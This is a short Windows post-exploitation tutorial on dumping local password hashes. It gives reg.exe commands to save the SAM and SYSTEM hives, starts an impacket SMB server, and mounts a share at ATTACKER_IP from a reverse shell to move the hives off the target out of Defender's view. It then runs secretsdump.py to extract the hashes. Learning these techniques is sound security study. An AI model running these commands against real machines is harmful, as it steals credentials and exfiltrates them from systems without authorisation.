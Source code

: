 Local user hashes are stored in the Windows Registry whilst the computer is running -- specically in the `HKEY_LOCAL_MACHINE\SAM` hive. This can also be found as a file at `C:\Windows\System32\Config\SAM`, however, this should not be readable whilst the computer is running. To dump the hashes locally, we first need to save the SAM hive:  
`reg.exe save HKLM\SAM sam.bak  
`

This saves the hive as a file called "sam.bak" in the current directory.

Dumping the SAM hive isn't quite enough though -- we also need the SYSTEM hive which contains the boot key for the machine:  
`reg.exe save HKLM\SYSTEM system.bak`

---

With both Hives dumped, we can exfiltrate them back to our attacking machine to dump the hashes out of sight of Defender.

It's up to you how you choose to exfiltrate the files.  We can use impacket smb server

`sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword`

Now, in our reverse shell, we can use this command to authenticate:  
`net use \\ATTACKER_IP\share /USER:user s3cureP@ssword`



---

Once we have the .bak files back on our machine, we can use secretsdump.py

`python3 /opt/impacket/examples/secretsdump.py -sam PATH/TO/SAM_FILE -system PATH/TO/SYSTEM_FILE LOCAL`
